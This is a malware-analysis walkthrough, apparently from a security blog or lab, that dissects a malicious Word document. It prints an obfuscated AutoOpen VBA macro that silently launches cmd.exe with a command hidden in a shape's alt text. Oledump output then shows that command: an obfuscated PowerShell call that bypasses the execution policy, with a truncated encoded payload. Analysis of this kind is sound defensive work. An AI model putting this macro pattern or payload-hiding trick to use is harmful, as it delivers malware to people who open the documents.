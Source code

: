 ```vb
Sub AutoOpen()
On Error Resume Next
  rjvFRbqzLtkzn = "" + ""
  SKKdjMpgJRQRK = "" + "" + Trim("")
  hdNxDVBxCTqQTpB = LTrim("")
  RJzJQGRzrc = ""
  CWflqnrJbKVBj = RTrim("") + ""
  Set pNHbvwXpnbZvS = Shapes(Trim("h9mkae7"))
  VBA.Shell# "CmD /C " + Trim(rjvFRbqzLtkzn) + SKKdjMpgJRQRK + Trim(Replace(pNHbvwXpnbZvS.AlternativeText + "", "[", "A")) + hdNxDVBxCTqQTpB + RJzJQGRzrc + CWflqnrJbKVBj, CInt(351 * 2 + -702)
End Sub
```

This is much more approachable for manual analysis. Removing the variables that resolve to whitespace, resolving the calls to CInt() and Trim(), and replacing the random variable names gives us a macro that looks something like this (this might not actually run - I'm just cleaning it up to make it clear what the macro is trying to do): 

```vb
Sub AutoOpen()
On Error Resume Next
  Set shapeHandle = Shapes("h9mkae7")
  VBA.Shell# "CmD /C " Replace(shapeHandle.AlternativeText + "", "[", "A") , 0
End Sub
```

So the macro retrieves a [Shape object](https://docs.microsoft.com/en-us/office/vba/api/word.shape) named "h9mkae7" from the document and extracts its AlternativeText property (the alt text given to the object for accessibility purposes). It then replaces all instances of "[" in the alt text with "A", and passes the resulting string to a call to CmD (cmd.exe) using VBA.shell (the "0" at the end of this call tells Shell not to spawn a terminal window when launching cmd.exe, reducing the likelihood of immediate detection).

So we can imagine that the alt text of the "h9mkae7" object contains malicious code. But how do we extract it? Oledump allows us to search streams using ["adhoc" YARA rules](https://blog.didierstevens.com/2019/12/31/yara-ad-hoc-rules/) (that is, YARA rules defined on the command line and initilaised by Oledump at runtime). Searching for the name of our object gives the following result : 

```console
remnux@remnux:~$ oledump.py -y "#s#h9mkae7" attacker1_2.doc 
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:     13859 '1Table'
               YARA rule: string
...snip...
```

and extracting the strings from stream 4 reveals the command retrieved from h9mkae7's alt text :

```console
remnux@remnux:~$ oledump.py -s 4 -S attacker1_2.doc
h9mkae7
P^O^W^E^R^S^H^E^L^L ^-^N^o^P^r^o^f^i^l^e^ -^E^x^e^cutionPolicy B^^^yp^ass -encodedcommand J[Bp[G4[cwB0[GE[bgBj[GU[I[[9[C[[WwBT[Hk[cwB0[GU[bQ[u[...
...snip...
```
